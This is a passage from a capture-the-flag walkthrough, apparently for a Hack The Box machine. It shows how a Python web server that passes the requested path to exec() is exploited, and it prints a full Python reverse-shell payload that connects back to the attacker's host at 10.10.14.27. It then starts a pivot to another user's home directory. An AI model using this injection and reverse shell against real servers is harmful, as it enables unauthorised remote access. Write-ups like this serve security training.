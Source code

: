 ```python
                with open(errorPage, "r") as f:
                    data = f.read().format(path)
                status = "404"
        except Exception as e:
            print(e)
            errorPage = os.path.join(docRoot, "errors", "500.html")
            mime = "text/html"
            with open(errorPage, "r") as f:
                data = f.read()
            status = "500"
        return {"body": data, "mime": mime, "status": status}
```

When we inspect the code, we find a comment regarding the handling of strings. It passes an argument that we control directly to ```exec()``` which will allow us to execute code.

```python
info = "output = 'Document: {}'" # Keep the output for later debug
exec(info.format(path)) # This is how you do string formatting, right?
```

Since ```exec()``` executes python code passed to it, we have control over the path passed to the function.

We find that we can complete the ```output = 'Document: {}'``` string and pass in code by passing a single quopte and a semicolon to create a valid python statement that is passed to exec. We have to end the expression with an extra semicolon in order for the expression to execute sucessfully since it is still appending the final single quote. Our path becomes:

```python
';s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.27",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);;'
```

We pass this to the URL and we get a connect back to our box. We are now on the box as ```www-data```.


![](images/www-data.png)


## Pivot To Robert

Looking at ```/home``` we see that we are able to traverse ```/home/robert/``` as ```www-data```. After copying the files back to our local machine, we can take a look at the files. 
